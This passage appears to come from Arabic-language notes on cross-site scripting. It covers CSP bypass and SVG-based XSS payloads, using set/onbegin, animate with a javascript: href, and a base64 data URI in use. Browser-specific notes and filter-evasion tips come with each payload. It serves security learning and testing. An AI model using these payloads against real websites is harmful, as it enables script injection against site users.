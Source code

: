 **الخلاصة:**
تجاوز CSP باستخدام `<script src=//www.google.com/complete/search?...>` أو AngularJS فعال لأنه يستغل مجالات Google الموثوقة.

---

### ** ناقلات SVG مع معالجات الأحداث (SVG Vectors with Event Handlers)**
{ #XSS--ALL--Event--Payload }
**الشرح البسيط:**
يُستخدم في متصفحات Firefox وChromium (مع تعديل) لتنفيذ XSS باستخدام عناصر SVG ومعالجات أحداث مثل `onbegin` أو `onend`.

**أمثلة تعمل:**
- `<svg><set onbegin=alert(1)>`: يُنفذ عند بدء الرسوم المتحركة (يعمل في Firefox).
- `<svg><set end=1 onend=alert(1)>`: يُنفذ عند انتهاء الرسوم (يعمل في Firefox).
- `<svg><set attributename=x onbegin=alert(1)>`: يعمل في Chromium بإضافة `attributename=x`.

**لماذا يعمل؟**
- `<set>` و`animate` مدعومان في SVG للرسوم المتحركة.
- معالجات مثل `onbegin` و`onend` قليلًا ما تُحظر.
- إضافة `attributename=x` تجعل الحمولة تعمل في Chrome.

**📌 استخدمها لما:**

- الوسوم العادية محظورة (`<script>`، `<img>`...).
    
- لكن `<svg>` مش محظور.
    
- ومعالجات زي `onbegin`, `onend` مسموحة.
    

🧪 **مثال:**

```html
<svg><set onbegin=alert(1)></svg>
```

**الخلاصة:**
ناقلات SVG مع معالجات مثل `<svg><set onbegin=alert(1)>` فعالة لأنها تستغل ميزات SVG وتتجاوز مرشحات الأحداث.

---

### ** ناقلات SVG بدون معالجات أحداث (SVG Vectors without Event Handlers)**
{ #XSS--ALL--Event--Payload  /  #ideas_for_url }
**الشرح البسيط:**
يُستخدم لتجاوز المرشحات التي تمنع معالجات الأحداث أو خصائص مثل `src` و`data`. يعتمد على عنصر `<animate>` أو `<use>` لتنفيذ XSS.

**أمثلة تعمل:**
- `<svg><a><rect width=99% height=99% /><animate attributeName=href to=javascript:alert(1)>`: يُنفذ عند النقر على الرابط.
- `<svg><a><rect width=99% height=99% /><animate attributeName=href values=javascript:alert(1)>`: مشابه للأول.
- `<svg><a><rect width=99% height=99% /><animate attributeName=href to=0 from=javascript:alert(1)>`: يُنفذ عند الرسوم.
- `<svg><use xlink:href=data:image/svg+xml;base64,PHN2ZyBpZD0ieCIgeG1sbnM9Imh0dHA6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxuczp4bGluaz0iaHR0cDovL3d3dy53My5vcmcvMTk5OS94bGluayI+PGVtYmVkIHhtbG5zPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hodG1sIiBzcmM9ImphdmFzY3JpcHQ6YWxlcnQoMSkiLz48L3N2Zz4=%23x>`: يُنفذ في Firefox عبر `<use>`.
